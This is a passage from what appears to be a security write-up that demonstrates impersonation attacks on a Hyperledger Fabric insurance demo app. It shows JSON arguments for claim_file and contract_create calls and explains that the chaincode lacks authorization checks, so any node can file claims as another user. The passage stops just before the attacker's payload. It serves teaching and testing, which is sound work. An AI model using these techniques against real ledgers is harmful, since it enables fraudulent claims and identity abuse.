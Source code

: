 ``` json
claim_file({
	"contract_uuid": "0a07f4c6-fa49-4ba5-9c2a-b609eb4a3d37",
	"date": "2018-08-21T02:04:11.845Z",
	"description": "Hello this is Carol. My item broke :(",
	"is_theft": false,
	"uuid": "4be9f83b-494c-48ec-8cc5-d8ddad219c0c"
})
```

### Impersonating Carol - Method 2
If Carol's credentials are not known, Tom can still impersonate her by calling the Chaincode directly and invoking `claim_file`. The insurance app Chaincode does not have any authorization checks. Any node can invoke any function.

Let's buy another item as carol (this time `carol4`) and mess with that.

![](19.png)

``` json
contract_create(
{
	"contract_type_uuid": "c06f95d6-9b90-4d24-b8cb-f347d1b33ddf",
	"username": "carol4@example.net",
	"password": "secret75",
	"first_name": "Carol4",
	"last_name": "Smith",
	"item": {
		"id": 2,
		"brand": "Sony",
		"model": "Z",
		"price": 410,
		"serial_no": "OA3EG7"
	},
	"start_date": "2018-08-20T04:00:00.000Z",
	"end_date": "2018-08-26T04:00:00.000Z",
	"uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3"
})
```

### Invoking Chaincode with Tineola
By reading the ledger, Tom knows the Chaincode ID (or name) is `bcins` (see the `CC ID` column in screenshots). He also knows how the single parameter for `claim_file` invocation is formatted. Tom creates a new payload as follows:
